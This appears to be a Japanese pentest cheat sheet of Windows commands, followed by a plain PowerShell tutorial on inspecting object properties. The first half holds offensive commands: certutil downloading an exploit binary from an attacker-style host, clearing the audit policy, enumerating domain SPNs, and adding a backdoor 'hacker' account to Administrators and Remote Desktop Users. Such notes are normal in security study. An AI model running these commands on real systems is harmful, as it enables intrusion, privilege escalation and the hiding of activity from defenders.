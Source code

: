   #### Web
    - certutil
      - certutil -urlcache -f http://10.10.14.2:8000/Chimichurri.exe exploit.exe
        ![image](https://github.com/user-attachments/assets/0e89cadd-d41c-471d-9dae-8fc0d7a61cde)

  #### 監査ポリシー
    - ポリシーの確認
      - auditpol /get /category:*
    - ポリシーの有効化
      -auditpol /set /category:"system","account logon" /success:enable /failure:enable
    - 監査無し
      - auditpol /clear /y
 
  - domainサービス列挙
    - setspn -T ドメイン -F -Q */*
### ユーザ関連
    - ユーザの追加
      - net user hacker hacker123 /add
      - net localgroup Administrators hacker /add
      - net localgroup "Remote Desktop Users" hacker /ADD
    - パスワード変更
```bash
net user hacker newpassword
```
```bash
net user /domain hacker newpassword
```
  - ### コンパイル
    - gcc hello.c -o hello.exe


- ## PowerShell
  - #Select-Object や Where-Object を効果的に使用するためには、オブジェクトが持つプロパティを知っている必要があります。プロパティの一覧を確認する方法はいくつかありますので、それを以下に紹介します。
  - #プロパティの確認方法
    - 1. Get-Member を使用する
         - #Get-Member コマンドレットを使用すると、オブジェクトのプロパティやメソッドの一覧を取得できます。これにより、どのプロパティを使用できるかを確認することができます。
         - #例: プロセスのプロパティを確認する
           - Get-Process | Get-Member
         - #このコマンドを実行すると、Get-Process が返すオブジェクトのプロパティとメソッドのリストが表示されます。
    - 2. Select-Object -Property * を使用する
      - #もう一つの方法として、Select-Object を使ってすべてのプロパティを表示する方法があります。
      - #例: 最初のプロセスのすべてのプロパティを表示する
        - Get-Process | Select-Object -First 1 -Property *
      - #このコマンドは、最初のプロセスのすべてのプロパティを表示します。これにより、利用可能なプロパティを確認できます。
  - #プロパティを確認してからの使用例
    - #例1: Get-Process のプロパティを使用する
    - #まず、プロセスのプロパティを確認します。
      - Get-Process | Get-Member
    - すると、次のようなプロパティが表示されます（一部抜粋）：
      - Name         MemberType Definition
      - ----         ---------- ----------
      - Handles      Property   System.Int32 Handles {get;}
      - Id           Property   System.Int32 Id {get;}
      - Name         Property   System.String Name {get;}
      - CPU          Property   System.Double CPU {get;}
    - これに基づいて、プロセスの名前とCPU使用率を選択できます。
      - Get-Process | Select-Object -Property Name, CPU
    - 例2: Where-Object で条件を指定する
    - #今度は、プロセスのプロパティに基づいてフィルタリングを行います。例えば、CPU使用率が0.1を超えるプロセスを選択します。
      - Get-Process | Where-Object -FilterScript { $_.CPU -gt 0.1 }
    - #まとめ
    - #Select-Object や Where-Object を使用するためには、オブジェクトのプロパティを知っていることが重要です。プロパティを確認するためには、Get-Member や Select-Object -Property * を使用すると便利です。これらのツールを活用して、効率的に必要な情報を抽出しましょう。